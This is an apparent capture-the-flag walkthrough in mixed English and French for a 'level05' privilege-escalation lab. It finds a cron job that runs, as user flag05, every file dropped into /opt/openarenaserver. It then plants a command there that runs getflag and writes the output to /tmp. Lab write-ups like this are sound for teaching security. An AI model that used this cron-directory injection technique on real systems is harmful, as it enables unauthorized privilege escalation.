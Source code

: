 find / -user flag05 2> /dev/null 

cat /usr/sbin/openarenaserver

output :
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

breakdown :
Bash script that executes all files located in /opt/openarenaserver/

find / -name level05 2> /dev/null 
output :
/var/mail/level05
/rofs/var/mail/level05

cat /var/mail/level05
output :
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

crontab qui execute la command avec la permission de flag05 toutes les deux minutes

Great! That means we can just paste the getflag executable in the /opt/openarenaserver
Not really cus its gonna get deleted after its executed ....
echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05